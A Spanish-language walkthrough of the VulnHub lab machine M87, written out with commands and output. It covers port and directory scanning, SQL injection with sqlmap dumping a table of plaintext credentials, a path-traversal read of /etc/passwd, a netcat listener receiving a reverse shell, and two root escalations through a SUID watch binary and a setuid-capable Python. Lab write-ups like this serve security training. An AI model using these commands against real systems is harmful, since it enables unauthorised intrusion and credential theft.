





Resolución de la máquina M87 de la plataforma de VulnHub
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 192.168.100.15
Nmap scan report for 192.168.100.15
PORT STATE SERVICE
80/tcp open http
9090/tcp open zeus-admin
Si damos un vistazo a la web nos encontramos con un panel de login

Como no tenemos credenciales podemos buscar directorios y encontramos admin
❯ gobuster dir -u 192.168.100.15 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100
===============================================================
[+] Threads: 100
[+] Url: http://192.168.100.15
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin (Status: 301) [Size: 316] [--> http://192.168.100.15/admin/]
/assets (Status: 301) [Size: 317] [--> http://192.168.100.15/assets/]
Si ahora jugamos sobre admin encontramos el directorio backup
❯ gobuster dir -u 192.168.100.15/admin -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100
===============================================================
[+] Threads: 100
[+] Url: http://192.168.100.15/admin
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images (Status: 301) [Size: 323] [--> http://192.168.100.15/admin/images/]
/js (Status: 301) [Size: 319] [--> http://192.168.100.15/admin/js/]
/css (Status: 301) [Size: 320] [--> http://192.168.100.15/admin/css/]
/backup (Status: 301) [Size: 323] [--> http://192.168.100.15/admin/backup/]
Podemos ver un login, en el cual se tramita la data por GET

Con wfuzz podemos buscar parametros además de username y pass, y parece que id existe
❯ wfuzz -c -u "192.168.100.15/admin/backup/?FUZZ=" -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -t 100 --hh 4412
Target: http://192.168.100.15/admin/backup/?FUZZ=
Total requests: 2588
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000000001: 200 87 L 190 W 4560 Ch "id"
Si le enviamos un 1 a el parametro, podemos ver el usuario jack
❯ curl "http://192.168.100.15/admin/backup/?id=1" | html2text | grep -v "^$"
jack
[username ]
[********************]
Login
Pero al enviarle una comilla podemos ver un error de sql
❯ curl "http://192.168.100.15/admin/backup/?id='" | html2text | grep -v "^$"
You have an error in your SQL syntax; check the manual that corresponds your
MariaDB server version for the right syntax to use near ''' at line 1
[username ]
[********************]
Login
Con sqlmap podemos intentar ver las bases de datos existentes, parece interesante db
❯ sqlmap --url "http://192.168.100.15/admin/backup/?id=1" -dbs --batch
[INFO] fetching database names
available databases [4]:
[*] db
[*] information_schema
[*] mysql
[*] performance_schema
Ahora podemos dumpear la base de datos y encontramos credenciales entre ellas las de admin
❯ sqlmap --url "http://192.168.100.15/admin/backup/?id=1" -D db --dump --batch
[INFO] fetching entries for table 'users' in database 'db'
Database: db
Table: users
[10 entries]
+----+--------------------+-----------------+----------+
| id | email | password | username |
+----+--------------------+-----------------+----------+
| 1 | jack@localhost | gae5g5a | jack |
| 2 | ceo@localhost | 5t96y4i95y | ceo |
| 3 | brad@localhost | gae5g5a | brad |
| 4 | expenses@localhost | 5t96y4i95y | expenses |
| 5 | julia@localhost | fw54vrfwe45 | julia |
| 6 | mike@localhost | 4kworw4 | mike |
| 7 | adrian@localhost | fw54vrfwe45 | adrian |
| 8 | john@localhost | 4kworw4 | john |
| 9 | admin@localhost | 15The4Dm1n4L1f3 | admin |
| 10 | alex@localhost | dsfsrw4 | alex |
+----+--------------------+-----------------+----------+
Al probar parametros basicos como file podemos ver un lfi, y el usuario charlotte
❯ curl "192.168.100.15/admin/backup/?file=../../../../../../etc/passwd" | grep sh$
root:x:0:0:root:/root:/bin/bash
charlotte:x:1000:1000:charlotte,,,:/home/charlotte:/bin/bash
La contraseña 15The4Dm1n4L1f3 funciona con charlotte en el puerto 9090

Al autenticarnos podemos ver en la esquina inferior izquierda una pestaña terminal

Ya que tenemos una terminal podemos enviarnos una shell para mas comodidad

Recibimos la shell y podemos ver la primera flag
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 192.168.100.15
script /dev/null -c bash
Script started, file is /dev/null
charlotte@M87:~$ whoami
charlotte
charlotte@M87:~$ hostname -I
192.168.100.15
charlotte@M87:~$ cat local.txt
29247ebdec52ba0b9a6fd10d68f6b91f
charlotte@M87:~$
En este punto podemos encontrar 2 caminos para root primero buscando binarios suid
charlotte@M87:~$ find / -perm -4000 2>/dev/null
/usr/sbin/pppd
/usr/sbin/exim4
/usr/bin/watch
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/su
/usr/bin/mount
/usr/bin/pkexec
charlotte@M87:~$
Además del pkexec podemos ver watch, tirando de gtfobins nos podemos convertir en root
charlotte@M87:~$ watch -x bash -p -c 'reset; exec bash -p 1>&0 2>&0'
bash-5.0# whoami
root
bash-5.0# hostname -I
192.168.100.15
bash-5.0#
La segunda es buscando capabilities, encontramos cap_setuid+ep en old
charlotte@M87:~$ getcap -r / 2>/dev/null
/usr/bin/old = cap_setuid+ep
/usr/bin/ping = cap_net_raw+ep
charlotte@M87:~$
Al ejecutarlo vemos que es python asi que tirando de gtfobins nos convertimos en root
charlotte@M87:~$ old
Python 2.7.16
>>> import os
>>> os.setuid(0)
>>> os.system("su")
root@M87:/home/charlotte# cd
root@M87:~# id
uid=0(root) gid=0(root) groups=0(root)
root@M87:~# hostname -I
192.168.100.15
root@M87:~# cat proof.txt
MMMMMMMM MMMMMMMM 888888888 77777777777777777777
M:::::::M M:::::::M 88:::::::::88 7::::::::::::::::::7
M::::::::M M::::::::M 88:::::::::::::88 7::::::::::::::::::7
M:::::::::M M:::::::::M8::::::88888::::::8777777777777:::::::7
M::::::::::M M::::::::::M8:::::8 8:::::8 7::::::7
M:::::::::::M M:::::::::::M8:::::8 8:::::8 7::::::7
M:::::::M::::M M::::M:::::::M 8:::::88888:::::8 7::::::7
M::::::M M::::M M::::M M::::::M 8:::::::::::::8 7::::::7
M::::::M M::::M::::M M::::::M 8:::::88888:::::8 7::::::7
M::::::M M:::::::M M::::::M8:::::8 8:::::8 7::::::7
M::::::M M:::::M M::::::M8:::::8 8:::::8 7::::::7
M::::::M MMMMM M::::::M8:::::8 8:::::8 7::::::7
M::::::M M::::::M8::::::88888::::::8 7::::::7
M::::::M M::::::M 88:::::::::::::88 7::::::7
M::::::M M::::::M 88:::::::::88 7::::::7
MMMMMMMM MMMMMMMM 888888888 77777777
Congratulations!
You've rooted m87!
21e5e63855f249bcd1b4b093af669b1e
mindsflee
root@M87:~#